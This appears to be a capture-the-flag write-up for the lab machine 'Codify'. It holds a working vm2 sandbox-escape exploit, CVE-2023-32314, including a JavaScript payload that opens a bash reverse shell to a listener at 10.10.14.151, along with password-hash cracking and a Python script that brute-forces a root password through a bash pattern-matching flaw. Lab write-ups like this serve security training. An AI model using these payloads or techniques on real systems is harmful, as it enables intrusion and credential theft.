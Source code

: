 # Codify
#activemachine 
#web 
#js
#sandbox
#hashcrack 
#easy 

### Reconnaissance
The first phase of the penetration test involved reconnaissance to gather information about the target system. Nmap was used to scan the target system and identify open ports and services. The results showed that the system had several open ports, including port 22 (SSH), port 80 (HTTP), and port 3000 (HTTP).

The following commands were used for reconnaissance `nmap -sV -v $TARGET`, here we have the original output:

```
Nmap scan report for 10.10.11.239
Host is up (0.054s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.52
3000/tcp open  http    Node.js Express framework
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

### Web Application Analysis
We start by performing a manual research on the website at first it doesn't show the content and it changes our URL to ` codify.htb`, so as usual we add this to our `/etc/hosts` by running the following command `echo "${TARGET} codify.htb" | sudo tee -a /etc/hosts`.

Now with access to the website, it seems to be a place where we can upload JavaScript code and it will be serve-rendered using nodejs, if we search a little bit more we can find that there are certain limitations in the code that we can render in order to stop us from using a basic command injection. In the last tab of the website we finally find information about the service that will be running our code inside a sandbox, this information includes the exact name and version of the product, so with this we can search if there are any known CVEs.
The exact product and version [vm2 3.9.16](https://github.com/patriksimek/vm2/releases/tag/3.9.16)
After just googling it we find that is associated to [CVE-2023-32314](https://www.cve.org/CVERecord?id=CVE-2023-32314)
We can also find a PoC of the exploit https://security.snyk.io/vuln/SNYK-JS-VM2-5537100

According to the CVE and the PoC we should be able to perform a Sandbox escape, to test this first we did a simple ping by running the following code in the website:
```js
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('ping -c 1 10.10.14.151');
}
`

console.log(vm.run(code));
```

To check if it worked, in local we run the following command to see if the ping is being executed as it should `sudo tcpdump -i tun0 icmp`.
```
17:15:26.875053 IP codify.htb > 10.10.14.151: ICMP echo request, id 3, seq 1, length 64

1 packet captured
```

Once we know we can break from the sandbox the most logical thing to do is to open a reverse shell to do this we will first open in local the listener by executing `nc -lvnp 4444`, after doing this we can run the following JavaScript code in the website to start the reverse shell

```javascript
const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync("bash -c 'sh -i >& /dev/tcp/10.10.14.151/4444 0>&1'");
}
`

console.log(vm.run(code));
```

### Lateral movement

Now we are inside the server as `svc`, first of all we get ourselfs a better terminal with `python3 -c 'import pty;pty.spawn("/bin/bash")'`, now we can start by exploring the `/var/www/` folder, inside it we can find a `/contact/` folder which contains a file called `tickets.db`

To explore the contents of this file we use `strings tickets.db`, the file contains a username and a hashed password among other things

Username=`joshua`
Hashed password=`$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2`

We save the hashed password in a file and we can try to check if with a word-list password we can get the same hash, to do this  `john -w=/usr/share/wordlists/rockyou.txt hashes`.

It turns out that the password associated to that hash is `spongebob1`
Now we can access via ssh as `joshua`, the user flag will be in `~/user.txt`

### Privilege escalation
We start by checking if we are allowed to run any commands as sudo with `sudo -l`
```
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```
We have permission to run `/opt/scripts/mysql-backup.sh`, so we check its contents
```bash
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

In the code we find a if that checks the password but it is using a syntax that allow us to abuse the pattern matching in order to perform a guided brute-force of the password, the exact part of code that we will  exploit is `[[ $DB_PASS == $USER_PASS ]]`. We create a python script to perform the brute-force and guess the password.
```python
#!/bin/python3
import subprocess

characters = [
    'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm',
    'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z',
    'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M',
    'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z',
]

numbers = ['0', '1', '2', '3', '4', '5', '6', '7', '8', '9']

symbols = [
    '!', '"', '#', '$', '%', '&', "'", '(', ')', '+', ',', '-', '.', '/',
    ':', ';', '<', '=', '>', '?', '@', '[',  ']', '^', '_', '`', '{', '|', '}', '~'
]

all_characters = characters + numbers + symbols
password = ''
max_password_length = 32

for _ in range(max_password_length):
    for char in all_characters:
        trypass = password + char + '*'
        process = subprocess.Popen(["sudo", "/opt/scripts/mysql-backup.sh"], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)

        # Pass the input data to the script
        output, errors = process.communicate(trypass.encode('utf-8'))
        if 'failed' not in output.decode('utf-8'):
            password = password+char
            print(password)
            break  # Password character found, move on to the next character
```

After just a few seconds we get the root user password which is `kljh12k3jhaskjh12kjh3`, now we can enter the root account, the flag is in `root/root.txt`